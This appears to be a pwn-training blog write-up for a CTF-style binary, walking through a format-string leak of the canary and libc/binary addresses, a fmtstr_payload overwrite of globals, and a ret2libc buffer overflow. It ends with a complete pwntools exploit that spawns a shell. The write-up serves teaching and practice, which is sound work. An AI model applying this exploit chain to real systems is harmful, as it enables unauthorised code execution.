 ```yaml
---
title: "Checkpoint [train 4]"
draft: false
tags: ["pwn", "training"]
date: 2024-01-04
series: ["pwn training"]
series_order: 4
---
```


Congrats on reaching this level. This level acts as a checkpoint (name suggests). You will be combining the idea of format strings, buffer overflows, canaries from previous blogposts. Try this level on your own and check for hints when stuck.
<!--more-->

# Challenge:
Download below challenge file.

[FILES](/images/pwn-train4/checkpoint_1.zip)

# Solution:

## Mitigations:
![](/images/pwn-train4/ss2.png)
No need to explain mitigations right ? These are different protections created to rule out certain types of attacks, make hackers life a little harder.

## Code Walkthrough:

We are given the c code. Here in the main program, there is a while loop to run the format string vulnerability and finally a compare statement leading to a fgets call.

![](/images/pwn-train4/ss3.png)

## Sample run:
Runing the file tells us there is a format string exploit.
![](/images/pwn-train4/ss4.png)


## Exploit idea:
Here the challenge is direct and was made to recap what we learnt in the previous blogs. The attack plan is
* leaking a binary address, libc address, canary.
* make the strength variable = "STRENGTH"
* increase the size variable to a much larger value for a buffer overflow. (tricky part)

## Format string exploit:

We already know what format strings are... now leak the stack little by little and see what useful values you get. I got the following values:

```leak
16: my input
49: canary
51: a libc address
56: a binary address
```

Now you got the values so calculate the address relatively with the binary/libc or initialise the binary and libc as elf with the help of pwntools ELF() function.

```py
#Need to know the libc. (used by default libc for local purpose)
elf.address = int((str(leak[2])[4:-3]), 16) - elf.sym.__libc_csu_init
libc.address = int((str(leak[1])[4:-1]), 16) - 159923
canary = int((str(leak[0])[4:-1]), 16)
#My weird way of receiving and splitin.
```

## Formats again:
The second task was to change the value of the global variables and make it favourable for us.

```py
fmt = fmtstr_payload(16, {
    elf.sym.size: 500,
    elf.sym.strength: u64(b"STRENGTH"),
})
```
Here I am making the size variable much larger than buffer size, making strength variable equal to "STRENGTH" to pass the check.

## Buffer Overflow:
Finally you do a bit of fiddling to get the correct offset of the stack canary and overwrite with the leaked canary, then simply do a ret2libc.

## Exploit:
```py

from pwn import *

exe = './checkpoint'
context.binary = elf = ELF(exe)

libc = "/usr/lib/x86_64-linux-gnu/libc.so.6"
if(libc != ""):
	libc = ELF(libc)

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b* main
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

'''
NOTES:
16: my input
49: canary
51: a libc address
56: a binary address
'''

p = start()

p.recv()
p.sendline(b"%49$p-%51$p-%56$p")
leak = p.recvline().split(b"-")

elf.address = int((str(leak[2])[4:-3]), 16) - elf.sym.__libc_csu_init
libc.address = int((str(leak[1])[4:-1]), 16) - 159923
canary = int((str(leak[0])[4:-1]), 16)

log.info(f"elf base: {hex(elf.address)}")
log.info(f"libc base: {hex(libc.address)}")

fmt = fmtstr_payload(16, {
    elf.sym.size: 500,
    elf.sym.strength: u64(b"STRENGTH"),
})

p.recv()
p.sendline(b"y")
p.send(fmt)

p.recv()
p.sendline(b"$p")
p.sendline(b"n")
p.sendline(b"A"*0x158 + p64(canary) + p64(0) + p64(elf.address + 0x1016) + p64(elf.address+0x151b)+ p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system))

p.interactive()

```

This was short and crisp since all these topics are already covered in the rest of the blogs. Happy Hacking.